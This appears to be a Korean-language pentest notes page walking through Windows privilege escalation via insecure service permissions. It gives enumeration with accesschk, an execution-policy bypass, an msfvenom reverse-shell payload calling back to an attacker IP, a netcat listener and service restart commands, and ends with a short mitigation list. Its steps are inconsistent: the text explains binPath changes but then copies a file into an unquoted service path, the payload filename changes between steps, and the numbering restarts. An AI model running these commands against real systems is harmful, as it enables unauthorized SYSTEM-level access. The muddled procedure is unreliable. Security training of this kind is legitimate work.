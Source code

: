 ```yaml
---
layout: page
title: Insecure_Service_Permissions
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


# 취약한 서비스 권한 (Insecure Service Permissions) 공격 가이드

Windows 서비스에 부적절한 권한이 설정되어 있을 경우, 일반 사용자가 서비스 설정을 변경하여 권한을 상승시킬 수 있습니다. 특히 서비스의 실행 파일 경로를 변경할 수 있는 권한이 있다면, 이를 악용하여 `NT AUTHORITY\SYSTEM` 권한을 획득할 수 있습니다.

### **취약점 원리**

만약 특정 그룹(예: `Authenticated Users`)이나 일반 사용자에게 서비스의 설정을 변경할 수 있는 `SERVICE_CHANGE_CONFIG` 권한이 부여되어 있다면, 공격자는 해당 서비스가 실행할 파일의 경로(`binPath`)를 자신이 업로드한 악성 파일로 변경할 수 있습니다. 이후 서비스를 재시작하면, 해당 서비스가 가진 높은 권한(주로 `LocalSystem`)으로 악성 파일이 실행됩니다.

---


### **1. 취약점 식별**

- **목표:** 현재 사용자가 수정할 수 있는 권한을 가진 서비스를 찾습니다.
- **핵심 도구:** `accesschk.exe` (Sysinternals), `PowerUp.ps1`

```powershell
# -w: 쓰기 권한이 있는 것만 표시
# -c: 서비스 이름
# -v: 상세 정보
# <user_or_group>: 'Authenticated Users' 또는 현재 사용자 이름
accesschk.exe -wcv "Authenticated Users" *

accesschk64.exe /accepteula -uwqvc daclsvc
```

![Pasted_image_20250707230538.png](/image/Pasted_image_20250707230538.png)

> `PowerUp.ps1`의 `Invoke-AllChecks` 함수는 이 과정을 자동화하여 취약한 서비스를 바로 찾아주므로 매우 효율적입니다.

---

### **2. 권한 분석**

- **목표:** `accesschk`의 결과에서 공격에 필요한 특정 권한이 있는지 확인합니다.
- **필수 권한:**
  - `SERVICE_CHANGE_CONFIG`: 서비스의 실행 파일 경로 등 설정을 변경할 수 있는 가장 핵심적인 권한입니다.
- **유용한 권한:**
  - `SERVICE_START`, `SERVICE_STOP`: 서비스를 직접 재시작할 수 있어 공격을 즉시 트리거할 수 있습니다.
  - `SERVICE_ALL_ACCESS`: 모든 권한을 의미합니다.

---

### **3. 익스플로잇 (Exploitation)**

1. **Powershell 실행:**
    - PowerShell을 시작할 때 실행 정책(Execution Policy)을 일시적으로 우회함.
    - PowerShell의 보안 설정을 변경하여 스크립트 파일(.ps1 등)을 실행할 수 있게 해줍니다.
```bash
powershell -ep bypass
```

2. **서비스 권한 체크:**
    - https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/
    - ![[service-acl 1.ps1]]
```bash
. ./service-acl.ps1
"zerotieroneservice" | Get-ServiceAcl | select -ExpandProperty Access
```

3. **리버스 셸 페이로드 생성 및 업로드:**
    - `msfvenom`으로 `exe` 형식의 리버스 셸 페이로드를 생성하여, 타겟 시스템의 쓰기 가능한 폴더(예: `C:\Windows\tasks`)에 업로드합니다.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f exe -o revshell.exe
```

4.  **서비스 실행 경로 내 파일 변경:**
    - 실행 파일을 따옴표로 묶지 않은 경로의 쓰기 가능한 폴더에 넣으세요. Windows는 따옴표로 묶지 않은 컨텍스트에서 데이터 구문 분석을 처리하는 방식 때문에 원래 실행 파일보다 먼저 실행 파일을 읽습니다.
```powershell
copy "C:\users\user\jaja\reverse.exe" "C:\Program Files\Unquoted Path Service\Common.exe"
```

5.  **리스너 실행:**
    - 공격자 머신에서 Netcat 리스너를 실행합니다.
```bash
rlwrap nc -lvnp 443
```

4.  **서비스 재시작:**
    - 서비스를 재시작하여 변경된 서비스의 페이로드가 실행되도록 합니다.
```powershell
sc.exe query unquotedsvc
sc stop <vulnerable_service_name>
sc start <vulnerable_service_name>
```
    > 만약 서비스 제어 권한이 없다면, 시스템이 재부팅될 때까지 기다려야 할 수도 있습니다.

5.  **권한 상승 성공:**
    - 서비스가 시작되면서 `revshell.exe`가 `SYSTEM` 권한으로 실행되고, 공격자에게 최상위 권한의 셸이 연결됩니다.

---


### **4. 방어 (Mitigation)**

- **최소 권한의 원칙:** 일반 사용자가 서비스 설정을 변경할 수 없도록 권한을 엄격하게 관리합니다.
- **정기적인 감사:** `accesschk`와 같은 도구를 사용하여 시스템의 서비스 권한 설정을 주기적으로 검토하고 불필요한 권한을 제거합니다.
